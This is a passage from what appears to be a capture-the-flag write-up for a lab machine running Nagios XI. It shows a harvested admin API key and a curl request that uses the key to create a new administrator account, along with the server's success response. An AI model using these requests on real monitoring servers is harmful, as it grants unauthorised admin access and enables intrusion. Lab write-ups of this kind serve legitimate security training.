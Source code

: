 - Get admin api key: `IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL`

- Now we can create a new admin-priv user using that api key ([link](https://support.nagios.com/forum/viewtopic.php?t=49647))
  - First let checking existing users: `/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1`
  - Add new user using this request:
```
curl -XPOST 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1' -d 'username=phd&password=phd&email=phd@phd.com&name=phd&auth_level=admin' -k
{
    "success": "User account phd was added successfully!",
    "user_id": 17
}
```

![img_2.png](img/img_2.png)

- Now we can login to nagios using the above cred:

![img_3.png](img/img_3.png)
